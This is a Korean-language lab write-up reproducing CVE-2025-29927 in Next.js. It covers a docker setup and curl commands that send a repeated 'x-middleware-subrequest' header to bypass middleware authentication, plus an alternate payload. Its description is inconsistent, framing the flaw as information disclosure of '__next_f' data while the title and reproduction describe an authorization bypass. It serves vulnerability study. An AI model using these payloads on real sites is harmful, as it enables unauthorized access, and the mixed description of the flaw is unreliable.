

# Next.js 미들웨어 인가 우회 (CVE-2025-29927)

## Next.js란?

Next.js는 React를 기반으로 한 웹 애플리케이션 프레임워크입니다.  
기본적인 React 기능에 더해 서버사이드 렌더링(SSR), 정적 사이트 생성(SSG), 파일 기반 라우팅, API 라우트 등을 지원하여, 프론트엔드와 백엔드 기능을 함께 개발할 수 있도록 도와줍니다.
Next.js를 사용하면 SEO 최적화가 쉽고, 성능 좋은 웹사이트를 빠르게 구축할 수 있습니다.


## CVE-2025-29927 취약점 설명

CVE-2025-29927은 Next.js의 middleware 처리 과정의 취약점을 악용하여, 서버 내부 렌더링 데이터를 노출시킬 수 있는 정보 유출(Information Disclosure) 취약점입니다.

Next.js는 클라이언트 요청을 처리할 때 middleware를 거칩니다.  
이때, 특별히 조작된 헤더(`x-middleware-subrequest`)를 다섯 번 이상 중첩하여 보내면, 서버가 이를 제대로 방어하지 못하고 서버 내부 렌더링 데이터(`__next_f`)를 외부 클라이언트에게 노출시키는 문제가 발생합니다.

### 요약

- 취약 원인: 중첩된 미들웨어 요청 처리 미흡
- 공격 방법: `x-middleware-subrequest` 헤더를 중첩하여 요청
- 공격 결과: 서버 내부 렌더링 상태(`__next_f`) 및 민감한 페이지 구조 정보 노출
- 위험성: 공격자가 서버 렌더링 내부 데이터를 수집하여 추가적인 공격(디렉토리 구조 파악, 내부 경로 분석 등)에 활용 가능

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```


애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

정상적으로는 인증되지 않은 사용자가 대시보드에 직접 접근할 경우 로그인 페이지로 리디렉션됩니다.

```bash
curl -i http://your-ip:3000
```


취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```


요청 결과, 응답 본문에 서버 렌더링용 내부 JSON 데이터가 포함된 것을 확인할 수 있습니다.
이는 인증 없이 민감한 내부 정보를 획득할 수 있다는 것을 의미합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.
